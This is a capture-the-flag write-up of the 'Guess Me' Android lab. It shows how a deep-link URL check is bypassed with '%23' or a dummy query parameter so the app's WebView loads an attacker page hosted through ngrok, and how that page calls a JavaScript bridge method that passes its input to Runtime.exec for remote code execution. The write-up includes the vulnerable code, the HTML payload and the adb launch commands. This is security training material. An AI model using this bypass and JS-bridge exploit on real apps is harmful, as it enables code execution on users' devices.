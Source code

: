 ```yaml
---
title: "Guess Me"
tags:
    - android
    - webview
    - deeplink
date: "2025-02-17"
thumbnail: "/assets/img/thumbnail/guessMe.png"
bookmark: true
---
```


# Description
---
Welcome to the "Guess Me" Deep Link Exploitation Challenge! Immerse yourself in the world of cybersecurity with this hands-on lab. This challenge revolves around a fictitious "Guess Me" app, shedding light on a critical security flaw related to deep links that can lead to remote code execution within the app's framework.

# Solution
---
In this lab we have 2 activities:

- `Main Activity` : and it contains the logic of the game which needs you to guess a number for winning
- `WebviewActivity` : which is the interesting part in this challenge as it
    - handles a deep link
    
    ```xml
    <activity
                android:name="com.mobilehackinglab.guessme.WebviewActivity"
                android:exported="true">
                <intent-filter>
                    <action android:name="android.intent.action.VIEW"/>
                    <category android:name="android.intent.category.DEFAULT"/>
                    <category android:name="android.intent.category.BROWSABLE"/>
                    <data
                        android:scheme="mhl"
                        android:host="mobilehackinglab"/>
                </intent-filter>
            </activity>
    ```
    
    - contains webview which we can control what it loads with some constraints
    - The web view has interesting settings like
        - JS enable `webSettings.setJavaScriptEnabled(**true**);` so JS code can be executed in the webview.
        - JavaScriptInterface `webView3.addJavascriptInterface(**new** MyJavaScriptInterface(), "AndroidBridge");` so If we can run JS code, we will be able to call methods annotated by `@JavascriptInterface` which are:
            - `loadWebsite(String url)`
            - `getTime(String Time)`

## Handling DeepLink logic
---
We see that we can accept intent in which the DeepLink gets handled

```java
public void onNewIntent(Intent intent) {
        super.onNewIntent(intent);
        handleDeepLink(intent);
    }

    private final void handleDeepLink(Intent intent) {
        Uri uri = intent != null ? intent.getData() : null;
        if (uri != null) {
            if (isValidDeepLink(uri)) {
                loadDeepLink(uri);
            } else {
                loadAssetIndex();
            }
        }
    }
```

There are some constraints we need to know in order to handle the deep link and understand it to find how to exploit it.

- The scheme must be `mhl` or `https` and the host must be `mobilehackinglab` as we see here

```java
private final boolean isValidDeepLink(Uri uri) {
        if ((!Intrinsics.areEqual(uri.getScheme(), "mhl") && !Intrinsics.areEqual(uri.getScheme(), "https")) || !Intrinsics.areEqual(uri.getHost(), "mobilehackinglab")) {
            return false;
        }
```

- It accepts a query parameter `url` and this url can be loaded but it must end with `mobilehackinglab.com`

```java
String queryParameter = uri.getQueryParameter("url");
        return queryParameter != null && StringsKt.endsWith$default(queryParameter, "mobilehackinglab.com", false, 2, (Object) null);
   
```

The 2 above condition are in `isValidDeepLink(uri)` method.

and in `loadDeepLink(uri)` the url in query parameter gets loaded if it passed the tests in `isValidDeepLink(uri)` method.

So in order to load a url you provide the following conditions must be satisfies:
- the deeplink url scheme = `mhl` or `https`
- the deeplink url hostname = `mobilehackinglab`
- url query parameter exists and its value ends with `mobilehackinglab.com` and then this url will be loaded. (This condition is the one we will bypass to load a url we want).


## Crafting the payload
---
After thinking we have a way to bypass this and load a url controlled by us using.

- url=<our site>%23mobilehackinglab.com
    
    %23 = # and it will follow the condition and load our site
    
- url=<our site>?test=mobilehackinglab.com
    
    test parameter doesn’t exist which will follow the condition and load our site also
    

so the full powershell payload became `.\adb.exe shell am start-activity -n com.mobilehackinglab.guessme/com.mobilehackinglab.guessme.WebviewActivity -d https://mobilehackinglab/?url=https://google.com%23mobilehackinglab.com` 

and it loads google.com

now we want to get RCE and this can be done if we read the javascript interface methods well.

we have

```java
public final String getTime(String Time) {
            Intrinsics.checkNotNullParameter(Time, "Time");
            try {
                Process process = Runtime.getRuntime().exec(Time);
                InputStream inputStream = process.getInputStream();
                Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
                Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
                BufferedReader reader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
                String readText = TextStreamsKt.readText(reader);
                reader.close();
                return readText;
            } catch (Exception e) {
                return "Error getting time";
            }
        }
```

We see that the parameter we pass to the function gets executed using `exec` function, and we can call this method and control that parameter, so we can change the parameter to any command we want.

I used the same html page made by the challenge and made the command to be `id`

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Android.showFlag</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
        }
        #result {
            margin-top: 20px;
            padding: 10px;
            border: 1px solid #ddd;
            background-color: #f9f9f9;
        }
    </style>
</head>
<body>
    
<p id="result">Thank you for visiting</p>

<!-- Add a hyperlink with onclick event -->
<a href="#" onclick="loadWebsite()">Visit MobileHackingLab</a>

    <script>

        function loadWebsite() {
           window.location.href = "https://www.mobilehackinglab.com/";
        }
    
        // Fetch and display the time when the page loads
        var result = AndroidBridge.getTime("id");
        var lines = result.split('\n');
        var timeVisited = lines[0];
        var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
        document.getElementById('result').innerText = fullMessage;
    
    </script>
</body>
</html>

```

Then i started a server at port 8000 and started ngrok using `ngrok http 8000`

i got this url https://91e2-156-199-159-107.ngrok-free.app which will forward the visitor to the html page i created and hosted.

So we can force the app to visit this html page and then it will execute the id command because of the line `var result = AndroidBridge.getTime("id");` and show the result.

Our final payload became ⇒ `.\adb.exe shell am start-activity -n com.mobilehackinglab.guessme/com.mobilehackinglab.guessme.WebviewActivity -d https://mobilehackinglab/?url=https://91e2-156-199-159-107.ngrok-free.app%23mobilehackinglab.com`

and ...

![image.png](../../../../assets/img/android/mobileHackingLabs/guessMe/image%201.png)

GG !! we got the RCE.
